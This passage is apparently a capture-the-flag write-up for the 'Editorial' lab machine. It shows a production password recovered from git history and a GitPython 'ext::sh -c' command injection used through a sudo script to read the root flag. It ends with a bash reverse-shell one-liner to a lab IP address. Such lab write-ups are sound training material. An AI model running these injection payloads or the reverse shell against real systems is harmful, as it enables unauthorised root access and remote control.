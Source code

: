We can check the different commits for any sensitive info:

```bash
dev@editorial:~/apps/.git$ git log


dev@editorial:~/apps/.git$ git show 1e84a036b2f33c59e2390730699a488c65643d28

```



One pops out as it mentions `internal` info


`prod:080217_Producti0n_2023!@`

Nice!


We can switch users to prod and we find we can run sudo


Checking out the script;


No luck trying to escape commands, but we can look at the packages the script imports and check their versions:


We see it's using `GitPython 3.1.29`, and there's an exploit for it



POC to test for code execution:
```
# `'ext::sh -c touch% /tmp/pwned'`
```

When we run the command we see a new file in /tmp
```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'

```


We can copy the root flag to the temp directory to read it:
```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/pwned'

```


## Exploits

https://github.com/gitpython-developers/GitPython/issues/1515


---


# Post/Pivot

We can also easily get a rev shell as root if we wanted to loot the box further:

```bash
prod@editorial:/opt/internal_apps/clone_changes$ echo '/bin/bash -i >& /dev/tcp/10.10.14.7/9001 0>&1' >> /tmp/rev.sh

```




---
